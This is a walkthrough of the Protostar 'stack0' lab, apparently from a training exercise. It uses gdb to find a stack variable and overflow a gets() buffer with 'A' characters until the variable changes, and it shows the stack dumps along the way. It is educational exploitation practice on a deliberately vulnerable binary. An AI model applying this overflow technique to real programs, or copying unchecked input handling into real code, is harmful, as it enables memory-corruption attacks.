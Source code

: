 The program is disassembled and the instructions can be mapped with the given c code to find out the location of the variable 'modified' which is at esp + x5c. The input is accepted at the gets function which has a vulnerability of accepting more than the buffer size declared. Adding breakpoints before gets function call and before the compare helps in analysis.

```
(gdb) r
Starting program: /opt/protostar/bin/stack0
Breakpoint 1, 0x0804840c in main (argc=1, argv=0xbffff864) at stack0/stack0.c:11
11        stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) x/24wx $esp
0xbffff750:        0xbffff76c        0x00000001        0xb7fff8f8        0xb7f0186e
0xbffff760:        0xb7fd7ff4        0xb7ec6165        0xbffff778        0xb7eada75
0xbffff770:        0xb7fd7ff4        0x08049620        0xbffff788        0x080482e8
0xbffff780:        0xb7ff1040        0x08049620        0xbffff7b8        0x08048469
0xbffff790:        0xb7fd8304        0xb7fd7ff4        0x08048450        0xbffff7b8
0xbffff7a0:        0xb7ec6365        0xb7ff1040        0x0804845b        0x00000000
```

The 0x0000000 is the value of the variable of concern. This needs to be modified. Entering c to continue execution and entering a bunch of A's to locate them on the stack.

```
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048415 in main (argc=1, argv=0xbffff864) at stack0/stack0.c:13
13        in stack0/stack0.c
(gdb) x/24wx $esp
0xbffff750:        0xbffff76c        0x00000001        0xb7fff8f8        0xb7f0186e
0xbffff760:        0xb7fd7ff4        0xb7ec6165        0xbffff778        0x41414141
0xbffff770:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff780:        0x41414141        0x41414141        0xbfff0041        0x08048469
0xbffff790:        0xb7fd8304        0xb7fd7ff4        0x08048450        0xbffff7b8
0xbffff7a0:        0xb7ec6365        0xb7ff1040        0x0804845b        0x00000000
```

The 0x41's can now be located and the start address can be noted for the A's. The number of A's required to overwrite the value of the 'modified' variable is calculated as 17 words. Using python to print this and re executing the program, the required output is obtained.

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack0
Breakpoint 1, 0x0804840c in main (argc=1, argv=0xbffff864) at stack0/stack0.c:11
11        in stack0/stack0.c
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Breakpoint 2, 0x08048415 in main (argc=1, argv=0xbffff864) at stack0/stack0.c:13
13        in stack0/stack0.c
(gdb) x/24wx $esp
0xbffff750:        0xbffff76c        0x00000001        0xb7fff8f8        0xb7f0186e
0xbffff760:        0xb7fd7ff4        0xb7ec6165        0xbffff778        0x41414141
0xbffff770:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff780:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff790:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff7a0:        0x41414141        0x41414141        0x41414141        0x41414141
(gdb) c
Continuing.
you have changed the 'modified' variable
Program exited with code 051.
```